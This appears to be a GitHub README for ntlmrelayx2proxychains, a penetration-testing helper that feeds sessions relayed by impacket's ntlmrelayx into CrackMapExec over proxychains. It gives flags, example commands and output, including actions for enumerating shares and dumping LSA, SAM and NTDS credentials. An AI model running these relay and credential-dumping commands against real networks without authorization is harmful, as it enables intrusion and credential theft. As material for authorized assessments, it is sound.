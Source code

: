 # ntlmrelayx2proxychains

## Introduction
[ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains) aims to connect the tool of the [SecureAuthCorps'](https://github.com/SecureAuthCorp) [impacket](https://github.com/SecureAuthCorp/impacket) suite, ntlmrelayx.py (hereafter referred to as "ntlmrelayx"), along with @[byt3bl33d3r](https://github.com/byt3bl33d3r)'s tool, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (hereafter referred to as "CME"), over [proxychains](https://github.com/haad/proxychains), developped by [haad](https://github.com/haad).

Currently, when having active relays via ntlmrelayx.py, you need to manually provide user, domain, and ip address in CME over proxychains. The idea behind this tool is to automate this process. 

So have you ever felt too lazy to **explore all shares, loggedin users, sessions, disks, and/or password policy** manually after using ntlmrelayx **or** felt too lazy to **dump the lsa, sam, and/or ntds** on all systems where you found a local administrator? If so, you'll for sure enjoy [ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains)! :) 

##  Help!

  This tools' help-page can be consulted via CLI using the `-h` or the `--help`parameter.

    $python3 ntlmrelay2proxychains.py --help
        Usage:
                $python3 ntlmrelay2proxychains.py --action {shares|lsa|sam|...} [--exclude] [--adminonly] [--help]
        
        
        Required argument:
                -a, --action            possible actions {shares|lsa|sam|ntds|sessions|disks|loggedon-users|pass-pol|???}
        
        
        Optional arguments:
                -h, --help              shows this help message and exits
                -e, --exclude           exludes ips listed in the file checked_ips.txt
                -A, --adminonly         only executes the command if the user is local admin on the IP
        
        
        Credits:
                This tool was made by @BugZ_GENK
        
        
        Disclaimer:
                Use with care, on your own risk! (and other legal blabla indicating you are NOT using this tool on my responsibility/accountability :))

## Requirements
This tool requires you to have **proxychains configured, Python3 and CME installed, and ntlmrelayx running using socks mode**.

## Required argument
As can be read above, the `-a` or `--action` parameter is **required**. Using this parameter you specify what comes at the end of your command in CME. 

**Example:**
When using ntlmrelayx2proxychains in the following way 

    $ python3 ntlmrelayx2proxychains -a shares
    
   The following command is executed in the background:

    $ proxychains crackmapexec smb -u "victim" -p "" -d "contoso" 10.10.10.10 --shares

## Optional arguments
### Exclude IPs
Starting of with the explanation of the `--exclude` (or the short version `-e`) parameter.

This parameter expects no further input via CLI, but checks the file `checked_ips.txt` (created on the first run of this tool). In this file you can specify IPs you want `ntlmrelayx2proxychains.py` to skip.

This can be useful when, ***e.g.*** , exploring shares. During your security assessment, you find a share where you have full read/write access. You fully crawl through this share, but can't find anything interesting. At this point, you are given the option to exclude this endpoint so it does not keep showing up over an over again, while you have already thoroughly investigated these shares. 

**Example:**
Example of `checked_ips.txt`:

    $cat checked_ips.txt
    10.10.10.10
    127.0.0.10
    192.168.0.10

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a shares -e
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: True
    -> Excluded IPs: 10.10.10.10, 127.0.0.10, 192.168.0.10
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]
Note, `Actively excluding IPs:` is set to `True` and `--> Excluded IPs: [SNIP]` sums up all IPs that are excluded.

### Adminonly
The next built-in parameter ntlmrelayx2proxychains supports is the `--adminonly` parameter (or the short version `-A`).

This parameter expects no further input at all. It just checks the ntlmrelayx API where it found relays for users that are local administrator on that particular endpoint.

This can be useful when, ***e.g.*** , dumping LSA secrets from target systems, as this operation can only be performed by users have local admin rights.

**Example:**
The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a lsa -A
    ===========> Configuration Overview <===========
    Action set to: lsa
    Showing only admins: True
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]

## Example run

   

    $ python3 ntlmrelay2proxychains.py -a shares
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    
    [*] Grepping your current relays......
    [*] Beautifying the json file......
    
    [*] Setting domain......
    [OK] Domain is: DUM
    
    [*] Ready, set, GO!
    proxychains crackmapexec smb -u "SRV-0001$" -p "" -d CONTOSO 10.10.10.5 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]
    
    proxychains crackmapexec smb -u "VICTIM" -p "" -d CONTOSO 10.10.10.10 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]


